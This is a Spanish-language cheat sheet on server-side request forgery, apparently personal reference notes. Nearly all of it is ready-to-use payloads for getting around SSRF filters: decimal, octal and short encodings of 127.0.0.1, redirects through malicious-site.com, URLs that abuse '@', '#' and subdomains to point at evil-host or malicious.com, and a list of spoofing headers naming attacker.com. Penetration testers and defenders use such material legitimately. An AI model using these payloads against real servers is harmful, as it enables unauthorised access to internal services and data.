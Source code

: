 ```yaml
---

### 🚀 **Server-Side Request Forgery (SSRF) Cheat Sheet**

---
```

---
## **Técnicas para Circunventar Filtros SSRF**

Algunas aplicaciones bloquean entradas comunes como `127.0.0.1` o `localhost`. Aquí hay técnicas para eludir estos filtros:

---

### **1. Usar Representación Alternativa de IP**
Representaciones de la IP `127.0.0.1`:
- **Decimal:** `2130706433`
- 🔢 **Octal:** `017700000001`
- 📝 **Forma abreviada:** `127.1`

---

### 🏷️ **2. Registrar un Dominio Controlado**
Registra un dominio propio que resuelva a `127.0.0.1` para realizar pruebas o explotar la vulnerabilidad:  
- Ejemplo: `spoofed.burpcollaborator.net`

---

### 📝 **3. Ofuscar Cadenas Bloqueadas**
- 🔒 **URL Encoding:** Convertir caracteres especiales. Ejemplo:  
  ```
  /admin → %2Fadmin
  ```
- 🔀 **Case Variation:** Cambiar entre mayúsculas y minúsculas:  
  ```
  /Admin → /admin
  ```
---

### 🔁 **4. Usar Redirecciones**
Configura una redirección en un dominio controlado para apuntar a la URL objetivo.  
- **Entrada del usuario:**  
  ```
  http://malicious-site.com/redirect?url=http://target-site.com/admin
  ```
- **Cambio de Protocolo:**  
  ```
  http://malicious-site.com/redirect?url=https://target-site.com/admin
  ```
---

## 🗝️ **Técnicas de Evasión Adicionales**

### 📝 **Embedding Credentials en la URL**
Se pueden incrustar credenciales dentro de la URL usando `@`:  
```http
https://expected-host:fakepassword@evil-host
```
- El servidor ignora las credenciales y hace la solicitud a `evil-host`.

---

### 🚀 **Uso del Carácter `#` para Fragmentos**
El carácter `#` indica el inicio de un fragmento, que **no es enviado al servidor**:  
```http
https://evil-host#expected-host
```
- El servidor accede a `evil-host` ignorando el fragmento.

---

### 🌐 **Jerarquía de Nombres de Dominio**
El atacante puede usar el nombre de host como subdominio de un dominio controlado:  
```http
https://expected-host.evil-host
```
- El servidor hace la solicitud a `evil-host`.

---

## 🛡️ **Ejemplos Prácticos**

### 📝 **1. Embedding Credentials:**
```http
https://example.com?url=https://internal-service:fakepassword@malicious.com
```
- El servidor intenta acceder a `https://malicious.com`.

---

### 💥 **2. Uso de Fragmento en la URL:**
```http
https://example.com?url=https://malicious.com#internal-service
```
- El servidor ignora el fragmento y accede a `https://malicious.com`.

---

### 🔍 **3. Jerarquía de Dominio (DNS Naming Hierarchy):**
```http
https://example.com?url=https://internal-service.malicious.com
```
- El servidor hace la solicitud al dominio controlado por el atacante.

---

## 🗂️ **Cabeceras HTTP para Evasión de SSRF**
Algunas cabeceras útiles para intentar redirigir o manipular la solicitud:

```http
Host: vulnerable-website.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-Server: attacker.com
X-Forwarded-Port: 80
Forwarded: for=127.0.0.1;host=attacker.com;proto=http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Referer: http://attacker.com
Origin: http://attacker.com
X-Forwarded-By: 127.0.0.1
X-Forwarded-Proto: https
Via: 1.1 attacker.com
X-Api-Version: 1.0
Max-Forwards: 10
X-Wap-Profile: http://attacker.com
Proxy-Authorization: Basic Zm9vOmJhcg==
Surrogate-Capability: attacker="Surrogate/1.0"
```

---

💾 **Guarda esta referencia en Obsidian para tener siempre a mano tus técnicas de SSRF!** 🚀